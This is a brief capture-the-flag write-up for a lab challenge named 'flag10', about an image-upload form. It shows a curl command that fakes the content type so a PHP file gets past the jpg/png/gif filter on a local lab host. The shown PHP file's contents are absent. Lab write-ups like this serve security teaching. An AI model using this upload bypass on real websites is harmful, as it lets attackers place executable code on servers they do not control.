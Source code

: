# flag10 | image upload

We can see that we have the possibility to upload an image. Let's try to upload a php file.

We can't because it's only accepting jpg, png and gif files.

Let's try with curl to fake the file type and send a php file.

```bash
curl -X POST -F "uploaded=@file.php; type=image/jpeg" -F "Upload=Upload" "http://192.168.56.104/index.php?page=upload" | grep flag
```


